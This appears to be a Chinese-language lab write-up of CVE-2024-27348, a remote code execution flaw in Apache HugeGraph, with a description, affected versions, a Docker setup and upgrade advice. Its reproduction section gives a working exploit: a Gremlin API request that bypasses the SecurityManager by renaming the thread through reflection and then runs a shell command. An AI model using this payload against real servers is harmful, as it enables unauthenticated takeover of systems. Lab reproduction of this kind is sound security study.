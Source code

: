 # Apache HugeGraph 远程代码执行漏洞 CVE-2024-27348

## 漏洞描述

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能、出色的性能和企业级的可靠性。

HugeGraph 的 Gremlin API 中存在一个远程代码执行漏洞。Gremlin 是一种图遍历语言，可以在 Groovy、Python 和 Java 等多种编程语言中实现。攻击者能够利用 Gremlin API 在未经身份验证的情况下执行基于 Groovy 的 Gremlin 命令，从而执行任意命令。

理论上，Apache HugeGraph 会使用 SecurityManager 来限制用户提交的 Groovy 脚本。但 SecurityManager 仅检查以“gremlin-server-exec”或“task-worker”开头的线程名称。攻击者通过使用反射修改当前线程名称，可以绕过这一机制，从而实现任意代码执行。

参考链接：

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348
- https://github.com/Zeyad-Azima/CVE-2024-27348

## 漏洞影响

```
1.0.0 <= HugeGraph < 1.3.0
```

## 环境搭建

Vulhub 执行如下命令启动一个包含漏洞的 HugeGraph 服务器：

```
docker compose up -d
```

环境启动后，可通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

![](images/Apache%20HugeGraph%20远程代码执行漏洞%20CVE-2024-27348/image-20250207172012262.png)

## 漏洞复现

通过 Gremlin API 接口发送恶意的 Gremlin 查询来执行任意命令：

```
POST /gremlin HTTP/1.1
Host: your-ip:8080
Accept-Language: en
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Content-Length: 779

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```

![](images/Apache%20HugeGraph%20远程代码执行漏洞%20CVE-2024-27348/image-20250207173208793.png)

## 漏洞修复

1. 升级 hugegraph 到 1.3.0 或更高版本。
2. 生产环境建议开启身份验证，并启用 IP/端口白名单功能以增强安全性。
